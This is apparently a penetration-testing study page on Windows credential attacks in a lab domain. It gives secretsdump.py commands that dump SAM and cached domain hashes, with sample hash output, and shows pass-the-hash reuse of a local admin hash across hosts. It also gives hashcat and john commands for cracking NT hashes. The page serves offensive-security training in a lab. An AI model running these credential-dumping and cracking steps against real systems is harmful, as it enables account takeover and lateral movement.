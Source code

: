 ## **Dumping Hashes with Secretsdump.py**

You can dump hashes directly with `secretsdump` rather than using the smbrelay attack, except you need to access shares, you should still try both though
## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , Windows server 2008 R2 and Windows Server 2012.This is used to store passwords in clear text 

![](https://tcm-sec.com/wp-content/uploads/2021/08/9327ed5a-2e34-4c71-87c4-a214b4b60444.png)


### **Dumping Individual hashes with local admin hash**

sometimes we might not be able to dump hashes by just specifying the user like we did in the first step, we where able to dump `MARVEL.local/fcastle` hash but we where not able to dump `MARVEL.local/pparkers` hash, If we can dump a user hash, we can copy the local admin hash and try it out with other users to see if they share the same admin hash, then we can get a user hash from there

```powershell
# Dumping frankcastle hash with local admin hash
$ secretsdump.py administrator:@192.168.0.132 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/4nSVJeN.jpg)


```powershell
# dumping peterparker hash with the local admin hash we got from fcastle
$ secretsdump.py administrator:@192.168.0.183 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```



![](https://i.imgur.com/MKOGwFO.jpg)


**Note :** The only thing that changes here is the IP address of each user, every command option stays the same




## **Cracking Hashes**


We can take the `NT` potion (second potion) of each user hash we want to crack and then crack it.

```powershell
# paste hash into a txt file
$ echo "7facdc498ed1680c4fd1448319a8c04f" > hash.txt

# cracking hash with hashcat
$ hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt

# cracking hash with john
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
```


**_Hashcat Output :_**

![](https://i.imgur.com/9x7QMIq.png)


**_John output :_**

![](https://i.imgur.com/3wGVyzJ.png)
